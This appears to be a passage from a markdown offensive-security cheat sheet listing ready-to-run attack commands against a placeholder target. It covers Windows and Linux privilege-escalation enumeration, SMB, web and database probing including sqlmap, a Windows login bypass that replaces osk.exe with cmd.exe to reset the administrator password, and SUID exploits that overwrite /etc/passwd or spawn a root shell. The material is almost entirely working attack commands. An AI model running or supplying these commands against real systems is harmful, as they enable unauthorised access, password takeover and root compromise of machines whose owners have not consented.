 ```bash

# Windows privilege escalation
whoami /priv
whoami /groups
net user
net localgroup administrators
systeminfo
tasklist /svc
netstat -an
schtasks /query
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

### Service Exploitation Payloads
```bash
# SMB exploitation
smbclient -L //target-ip
smbmap -H target-ip
enum4linux target-ip
rpcclient -U "" target-ip

# Web service exploitation
nikto -h http://target-ip
dirb http://target-ip
gobuster dir -u http://target-ip -w /usr/share/wordlists/dirb/common.txt
sqlmap -u "http://target-ip/page.php?id=1" --dbs

# Database exploitation
mysql -h target-ip -u root -p
psql -h target-ip -U postgres
sqlcmd -S target-ip -U sa
```

## Example Payloads

### 1. Windows Password Bypass Technique
```batch
REM Boot from Windows PE or Linux live USB
REM Access system partition (usually C:)
cd Windows\System32
ren osk.exe osk.exe.bak
copy cmd.exe osk.exe
REM Reboot to Windows login screen
REM Press Windows + U to open accessibility options
REM Click on-screen keyboard to get command prompt
net user administrator /active:yes
net user administrator newpassword
net localgroup administrators newuser /add
```

### 2. Linux Root Access via SUID Exploitation
```bash
# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Exploit common SUID binaries
# If /bin/cp has SUID bit:
echo 'user::0:0:root:/root:/bin/bash' > /tmp/passwd
/bin/cp /tmp/passwd /etc/passwd
su user

# If /usr/bin/find has SUID bit:
/usr/bin/find . -exec /bin/bash -p \; -quit
```